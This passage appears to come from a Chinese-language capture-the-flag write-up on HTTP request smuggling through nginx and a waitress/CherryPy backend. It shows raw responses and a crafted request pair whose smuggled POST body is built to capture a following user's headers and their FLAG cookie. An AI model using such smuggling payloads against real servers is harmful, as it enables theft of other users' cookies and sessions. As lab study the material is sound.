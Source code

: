可以得到返回值

```
42HTTP/1.1 200 OK
Content-Length: 207
Content-Type: text/html;charset=utf-8
Date: Thu, 17 Nov 2022 07:33:24 GMT
Server: CherryPy/18.8.0
Via: waitress

123 HTTP/1.1
Remote-Addr: 172.22.0.4
Remote-Host: 172.22.0.4
Connection: upgrade
Host: localhost
X-Real-Ip: 172.22.0.1
X-Forwarded-For: 172.22.0.1
X-Forwarded-Proto: http
User-Agent: Mozilla/5.0 (X11HTTP/1.0 200 OK
Connection: close
Content-Length: 2
Content-Type: text/html;charset=utf-8
Date: Thu, 17 Nov 2022 07:33:24 GMT
Server: CherryPy/18.8.0
Via: waitress

42
```

但是却没有flag，cookie并没有被带出来

先截一个请求包来看看

```
GET /xxx HTTP/1.1
Host: nginx

POST /api HTTP/1.1
Host: nginx
Content-Type: application/x-www-form-urlencoded
Content-Length: 300

expr=123 HTTP/1.1
Remote-Addr: 172.22.0.4
Remote-Host: 172.22.0.4
Connection: upgrade
Host: localhost
X-Real-Ip: 172.22.0.1
X-Forwarded-For: 172.22.0.1
X-Forwarded-Proto: http
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Cookie: FLAG=flag{test}
```
